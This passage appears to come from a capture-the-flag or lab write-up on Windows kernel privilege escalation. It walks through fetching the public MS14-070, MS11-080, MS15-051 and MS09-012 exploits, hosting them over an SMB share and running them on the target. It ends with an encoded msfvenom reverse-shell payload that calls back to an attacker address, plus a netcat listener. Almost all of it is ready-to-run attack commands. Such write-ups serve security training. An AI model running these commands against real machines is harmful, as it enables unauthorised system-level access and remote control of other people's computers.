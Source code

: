There are a few contenders but some standout as more probable based on the screenshots in the write-ups:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-080

Start with MS14-070 first:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS14-070/MS14-070.rar
unrar x MS14-070.rar
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS14-070\MS14-070.exe %TEMP%\MS14-070.exe
%TEMP%\MS14-070.exe
```

However, this exploit did not work as expected (caused the box to hang). Next try MS11-080:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-080/ms11-080.exe
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\ms11-080.exe %TEMP%\ms11-080.exe
%TEMP%\ms11-080.exe
```

However, this exploit did not work as expected (did not create a SYSTEM process). Next try MS15-051:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS15-051-KB3045171\ms15-051.exe %TEMP%\ms15-051.exe
%TEMP%\ms15-051.exe "whoami"
```

But this does not work as well? From here, switch to a previously used and reliable kernel exploit...

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012
- https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2009/ms09-012

```bash
# on kali, download and host binary/payload
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-012/pr.exe
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# on target download, and run binary
copy \\10.10.14.25\BUBBA\pr.exe %TEMP%\pr.exe
copy \\10.10.14.25\BUBBA\bubba.exe %TEMP%\bubba.exe
%TEMP%\pr.exe %TEMP%\bubba.exe
```
